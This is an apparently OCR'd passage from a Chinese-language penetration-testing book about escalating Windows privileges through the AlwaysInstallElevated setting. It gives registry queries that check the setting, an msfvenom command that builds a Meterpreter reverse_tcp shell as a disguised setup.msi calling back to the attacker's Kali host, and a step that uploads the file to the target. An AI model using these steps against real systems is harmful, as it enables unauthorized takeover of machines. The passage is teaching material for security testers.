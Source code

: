 我们可以利用这个配置通过生成一个自定义的 MSI 格式可执行文件来提升我们的权限。然后，我们可以使用**msiexec**工具执行该 MSI 可执行文件，从而获得提升的会话。

该功能在公司和组织中常常配置错误，主要是为了方便员工访问，或者管理员在设置工作站后错误地将其启用。无论哪种情况，这项技术都能让我们以相对简单的方式提升权限。

Always Install Elevated 功能配置在 Windows 注册表中，因此我们可以查询注册表以确定该功能是否启用，然后再开始权限提升过程。

让我们来看看如何使用 Metasploit 框架手动和自动执行此技术。

注意

如果目标系统未启用此功能，则此技术将无法工作。

要执行此技术，请按以下步骤操作：

1.  第一步是确定目标系统是否启用了 AlwaysInstallElevated 功能。可以通过在 Windows 命令行中运行以下注册表查询来完成：

    **reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated**

    **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated**

    如下截图所示，这将输出 AlwaysInstallElevated 功能的注册表配置及其值。如果以下截图中突出显示的值设置为**0**，则该功能被禁用；如果值设置为**1**，则该功能已启用：

    ![图 9.8 – 注册表查询 – AlwaysInstallElevated](img/B17389_09_006.jpg)

    ](Images/B17389_09_008.jpg)

    图 9.8 – 注册表查询 – AlwaysInstallElevated

    在本例中，我们确定 AlwaysInstallElevated 功能已启用，因此可以利用该功能提升我们的权限。

1.  过程中的第二步是使用 MSFvenom 生成自定义的 MSI 可执行文件。可以通过在 Kali 中运行以下命令来完成此操作：

    **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -f msi > setup.msi**

1.  生成有效载荷后，我们可以将其上传到 Windows 临时目录，可以在以下位置找到它：

    C:\Temp

    现在，我们可以通过运行以下命令，使用 Meterpreter 将自定义 MSI 可执行文件上传到目标系统的临时目录：

    **upload /home/kali/Desktop/setup.msi**

    如果你正在使用标准命令行，可以使用**certutil**工具将二进制文件传输到目标系统。

    如下图所示，这将把 Meterpreter 可执行文件上传到**Autorun Program**目录：

    ![图 9.9 – Meterpreter – 上传自定义 MSI    ](img/B17389_09_009.jpg)
